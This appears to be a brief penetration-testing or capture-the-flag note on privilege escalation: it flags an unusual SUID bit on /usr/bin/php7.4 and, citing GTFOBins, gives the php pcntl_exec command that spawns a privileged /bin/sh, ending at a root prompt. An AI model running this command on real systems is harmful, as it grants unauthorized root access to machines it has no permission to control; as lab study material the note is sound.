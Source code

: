 /usr/bin/php7\.4 unusual SUID set

-  GTFObins php
-  cd /bin
-  CMD="/bin/sh"
-  \./php \-r "pcntl\_exec\('/bin/sh', \['\-p'\]\);"
# root